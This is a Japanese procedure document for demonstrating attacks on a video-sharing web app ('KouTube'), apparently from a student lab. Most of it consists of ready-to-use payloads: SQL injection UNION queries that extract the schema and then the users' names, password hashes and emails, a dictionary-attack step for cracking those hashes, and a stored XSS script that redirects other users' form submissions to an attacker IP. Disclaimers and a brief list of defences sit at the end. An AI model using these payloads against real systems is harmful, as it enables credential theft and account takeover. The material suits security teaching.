 # Webサーバー攻撃デモ手順書

## 概要
本手順書は、SQLインジェクションとXSS攻撃のデモンストレーション用です。
**注意: この手順書は教育目的のみに使用し、実際のシステムへの不正アクセスには使用しないでください。**

## 1. SQLインジェクション攻撃デモ

### 1.1 データベース名の取得
動画検索フィールドまたはコメント投稿欄に以下のペイロードを入力：

```sql
' AND 1=2 UNION SELECT 1, 2, DATABASE(), 'dummy_description', 'dummy_filepath.mp4', 5, '2025-01-01 00:00:00' --'
```

**期待される結果**: データベース名（KouTube）が表示される

### 1.2 テーブル名の取得
次に以下のペイロードを使用してテーブル名を取得：

```sql
' AND 1=2 UNION SELECT 1, 2, table_name, 'dummy_description', 'dummy_filepath.mp4', 5, '2025-01-01 00:00:00' FROM information_schema.tables WHERE table_schema = 'KouTube' -- '
```

**期待される結果**: データベース内のテーブル名一覧が表示される

### 1.3 usersテーブルのカラム構造取得
usersテーブルのカラム名を取得：

```sql
' AND 1=2 UNION SELECT 1, 2, GROUP_CONCAT(column_name), 'dummy_description', 'dummy_filepath.mp4', 5, '2025-01-01 00:00:00' FROM information_schema.columns WHERE table_schema = 'KouTube' AND table_name = 'users' -- '
```

**期待される結果**: usersテーブルのカラム名（id, username, password, email等）が表示される

### 1.4 機密情報の取得
ユーザー情報（ユーザー名、パスワード、メールアドレス）を取得：

```sql
' AND 1=2 UNION SELECT id, id, CONCAT_WS('\n', username, password, email), '', '', 0, NOW() FROM users ORDER BY id ASC -- '
```

**期待される結果**: 全ユーザーの機密情報が表示される

### 1.5 辞書攻撃によるパスワード解読
1.4で取得したハッシュ化されたパスワードに対して辞書攻撃を実行：

1. **攻撃準備**:
   - 辞書ファイル（a.txt）を用意
   - attacks_jisyo.pyスクリプトを使用

2. **攻撃実行**:
   ```bash
   python3 attacks_jisyo.py
   ```

3. **スクリプトの動作**:
   - 取得したsalt値（例：`$6$O/zgIwlwUdB90Lqq`）を使用
   - 辞書ファイルから候補パスワードを順次試行
   - ハッシュ値が一致したパスワードを特定

**期待される結果**: 平文パスワードが解読され、実際のユーザーアカウントへの不正アクセスが可能になる

## 2. XSS攻撃デモ

### 2.1 攻撃の準備
1. 攻撃者用のWebページ（you.html）を用意
2. 攻撃者のIPアドレスを確認（例：192.168.25.128）

### 2.2 XSSペイロードの投稿
動画のコメント欄に以下のJavaScriptコードを投稿：

```javascript
<script>document.onkeypress = function(e) {var f=document.forms;var i=f.length-1;do{f[i].action="http://192.168.25.128/project/projitu_1/static/you.html";f[i].onsubmit=null;}while(--i);}</script>
```

### 2.3 攻撃の実行
1. 第三者ユーザーが該当の動画ページにアクセス
2. 第三者ユーザーがコメントを投稿しようとする
3. キーを押すと、フォームのaction属性が攻撃者のサイトに変更される
4. コメント投稿時に攻撃者のサイト（you.html）にリダイレクトされる

## 3. デモ実行時の注意事項

### セキュリティ対策の確認
- 入力値のサニタイゼーション
- SQLクエリのプリペアードステートメント使用
- CSRFトークンの実装
- Content Security Policy (CSP)の設定

### デモ環境の要件
- ローカル環境またはテスト専用環境での実行
- 攻撃対象システムの所有者の許可
- ネットワーク分離された環境での実施

---
**免責事項**: この手順書は教育目的のみに作成されています。実際のシステムに対する不正アクセスや攻撃行為は法的に禁止されており、発見された場合は法的措置の対象となる可能性があります。